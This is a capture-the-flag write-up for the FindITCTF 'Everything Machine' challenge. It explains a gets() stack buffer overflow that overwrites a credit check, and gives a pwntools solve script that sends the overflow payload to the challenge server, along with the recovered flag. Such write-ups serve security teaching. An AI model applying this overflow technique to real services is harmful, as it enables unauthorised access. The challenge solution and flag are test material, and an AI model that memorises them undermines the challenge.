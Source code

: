 ```yaml
---
description: buffer overflow
---
```


# Everything Machine

## Problem

<details>

<summary>Description</summary>

The "Everything Machine" is a volumetric printer that had the ability to copy and print any three dimensional object. Can you, by force, make it print out a flag? Maybe overflow it with something?

```c
nc 34.124.192.13 60640
```

</details>

## Solution

Basic file check and checksec reveals that the binary is ELF 64-Bit, dynamically linked not stripped and the protection enabled is NX and partial RELRO. Let's take a look at the main function

<figure><img src="../../../.gitbook/assets/image_2023-05-15_003010642.png" alt="" width="452"><figcaption><p>Decompiled Main Function</p></figcaption></figure>

It seems for the program to run system on flag.txt, we need to make sure that the variable `credit` must hold a value more than 12337. It seems that `credit` is set using the `login()` function. Let's take a look at it

<figure><img src="../../../.gitbook/assets/image_2023-05-15_003311821.png" alt=""><figcaption><p>Decompiled login Function</p></figcaption></figure>

at glance, if everything went normal there seems no way for `credit` to be returned with a value more than we wish. However since the function is using the dangerous `gets()` function, we can possibly overwrite the `credit` and return its value as we wish. However we also have to make sure that our `input_buffer` has to fail both of the string compare to make sure that the value of `credit` won't be updated. Looking at the stack alignment, we can see that we need to write 28 bytes of padding before we'll overwrite the `credit` variable.

{% code title="Solve.py" lineNumbers="true" fullWidth="false" %}
```python
#!user/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './everything'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
host = '34.124.192.13'
port = 60640

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(host, port, *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

io = start()

# =========================================================
#                         EXPLOITS
# =========================================================

# sending payload
io.sendlineafter(b'Item: ', b'aaaaaaaaaaaaaaaaaaaaaaaaaaa0x3031')

io.interactive()
```
{% endcode %}

## Flag

> _**FindITCTF{D1v1s10n$\_1z\_th3\_b3st\_4LBUM}**_
